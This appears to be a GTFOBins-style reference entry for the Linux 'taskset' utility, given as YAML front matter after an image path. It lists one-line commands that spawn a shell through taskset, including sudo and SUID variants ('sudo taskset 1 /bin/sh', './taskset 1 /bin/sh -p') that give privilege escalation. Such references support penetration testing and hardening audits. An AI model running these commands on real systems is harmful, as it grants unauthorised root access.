 ```yaml
---
functions:
  execute-interactive:
    - code: taskset 1 /bin/sh
  sudo-enabled:
    - code: sudo taskset 1 /bin/sh
  suid-enabled:
    - code: ./taskset 1 /bin/sh -p
---
```

